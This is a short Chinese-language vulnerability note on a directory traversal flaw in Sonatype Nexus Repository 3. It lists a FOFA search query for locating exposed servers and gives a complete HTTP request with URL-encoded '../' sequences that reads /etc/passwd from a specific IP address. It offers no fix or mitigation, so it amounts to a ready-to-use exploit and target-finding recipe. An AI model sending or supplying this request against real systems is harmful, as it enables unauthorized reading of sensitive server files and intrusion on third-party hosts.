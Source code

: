 # Sonatype Nexus Repository 3存在目录遍历漏洞

# 一、漏洞简介
 Sonatype Nexus Repository 3是一个universal repository manager，用于管理和代理各种软件组件、工件和依赖项。它支持多种格式，包括Java、npm、PyPI、Docker、 Helm 等。    Sonatype Nexus Repository 3 目录遍历漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件。  

# 二、影响版本
+   Sonatype Nexus Repository 

# 三、资产测绘
+ fofa`app="Nexus-Repository-Manager"`
+ 特征

![1716536322398-f581723f-9518-4a47-ba84-7b1d911984ac.png](./img/On-MgBR8a1x-iDHA/1716536322398-f581723f-9518-4a47-ba84-7b1d911984ac-061105.png)

# 四、漏洞复现
```plain
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 162.19.64.171:8081
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

![1716536350863-7c1e10d0-08ba-4671-b9a6-739d4a32afbf.png](./img/On-MgBR8a1x-iDHA/1716536350863-7c1e10d0-08ba-4671-b9a6-739d4a32afbf-686669.png)



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rx4pgbpa10t7pmtr>